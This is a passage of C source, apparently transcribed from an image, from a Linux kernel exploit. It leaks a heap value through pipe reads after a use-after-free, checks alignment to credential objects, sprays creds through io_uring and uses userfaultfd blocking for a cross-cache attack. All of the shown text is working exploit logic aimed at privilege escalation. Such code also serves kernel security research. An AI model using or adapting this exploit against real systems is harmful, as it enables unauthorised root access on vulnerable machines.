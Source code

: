 ```c 

    usleep(200000);
    uint64_t cookie = 0, cookie_idx = 0;
    size_t pipe_idx;
    for (pipe_idx = 0; pipe_idx < ARRAY_SIZE(pipes); pipe_idx++) {
        /* kmalloc-96 is not naturally aligned to PAGESIZE, so we can read this all without worrying
         * about prematurely freeing our page. */
        for (size_t i = 0; i < 42; i++) {
            uint64_t chunk[0x0c];

            if (read(pipes[pipe_idx].read, &chunk, 96) <= 0)
                fatal("read() from pipe failed");

            uint64_t potential_cookie = chunk[0];

            printf("%.16lx\n", potential_cookie);
            if (!cookie && potential_cookie) {
                cookie = potential_cookie;
                cookie_idx = i;
            }
        }

        if (cookie) {
            break;
        }
    }

    if (cookie) {

        /* If we didn't land on a cred boundary, bail out. We'd crash anyway. */
        if ((cookie_idx * 96) % 192 != 0) {
            /* make the memcpy() just write into our controlled pipe page again, so no harm is done. */
            ufd_unblock_page_copy((void *)blockers[1].arg.pagefault.address, scratch, &copied_size);
            fatal("UaF object was not aligned to 192 bytes. Try again..");
        }

        /* Before releasing the page again, we empty the cred freelist 
         * so any new cred allocations will get a new slab */
        alloc_n_creds(uring_cred_dumps[0], 0x4000);

        /* Release page*/
        close(pipes[pipe_idx].read);
        close(pipes[pipe_idx].write);
    } else {
        /* this error path is a bit problematic, we don't know where the write went.. 
         * still, it's better to get the other write over with now.
        */
        ufd_unblock_page_copy((void *)blockers[1].arg.pagefault.address, scratch, &copied_size);
        fatal("cross-cache failed. Try again..");
    }

    printf("pipe %ld, offset +0x%.4lx: cookie %.16lx\n", pipe_idx, cookie_idx * 96, cookie);
    //[...]
}
```
